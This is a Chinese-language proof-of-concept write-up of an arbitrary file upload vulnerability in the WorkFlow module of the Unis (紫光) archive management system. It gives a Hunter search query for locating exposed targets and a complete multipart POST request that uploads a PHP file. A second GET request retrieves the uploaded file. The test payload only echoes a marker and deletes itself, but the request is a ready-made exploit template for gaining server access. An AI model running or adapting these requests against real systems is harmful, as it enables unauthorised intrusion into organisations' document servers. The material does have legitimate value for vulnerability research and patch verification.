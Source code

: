 # 紫光档案管理系统WorkFlow存在任意文件上传漏洞

# 一、漏洞简介
紫光电子档案管理系统是一款专业的电子档案管理软件，旨在帮助企业实现高效、便捷的档案管理。系统具有强大的文件存储、检索和共享功能，能够提供全面的档案管理解决方案。同时，紫光电子档案管理系统还拥有智能化的分类和归档功能，可以自动识别文件类型和属性，实现快速分类和高效管理。用户只需简单操作，就能轻松实现对各类电子档案的整理、查询和备份，极大提升了工作效率和信息安全性。紫光档案管理系统WorkFlow存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 紫光档案管理系统

# 三、资产测绘
+ hunter`app.name="紫光档案管理系统"`
+ 特征

![1706701328959-e1863eab-b7f1-4486-80c8-0a22052ee093.png](./img/XBNrpIgiaD34ynSQ/1706701328959-e1863eab-b7f1-4486-80c8-0a22052ee093-481346.png)

# 四、漏洞复现
```plain
POST /System/WorkFlow/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Connection: close
Content-Length: 566
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=vow8ojiofbpypwih3t3i

--vow8ojiofbpypwih3t3i
Content-Disposition: form-data; name="userID"

admin
--vow8ojiofbpypwih3t3i
Content-Disposition: form-data; name="fondsid"

1
--vow8ojiofbpypwih3t3i
Content-Disposition: form-data; name="comid"

1
--vow8ojiofbpypwih3t3i
Content-Disposition: form-data; name="token"

affe447f075bac53a7e568e833391e67
--vow8ojiofbpypwih3t3i
Content-Disposition: form-data; name="Filedata"; filename="wizjbifuta.php"
Content-Type: multipart/form-data


<?php echo "2ccASC47CJ474cqTBuzA0q6FCAS";unlink(__FILE__); ?>
--vow8ojiofbpypwih3t3i--
```

![1708400624091-0445193c-2775-46e8-941b-14504eb04eca.png](./img/XBNrpIgiaD34ynSQ/1708400624091-0445193c-2775-46e8-941b-14504eb04eca-391445.png)

上传文件位置

```plain
GET /tmp/System/WorkFlow/import/20240220/65d41fbc77b27.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Connection: close
Accept: text/*
Cookie: PHPSESSID=d3dbba517d0d6ff544f1be11e134a7f9
Accept-Encoding: gzip, deflate
```

![1708400691415-3428fb4b-98d4-43ce-ae07-f9b7a0edae2e.png](./img/XBNrpIgiaD34ynSQ/1708400691415-3428fb4b-98d4-43ce-ae07-f9b7a0edae2e-480631.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qgnm98f455xygfw3>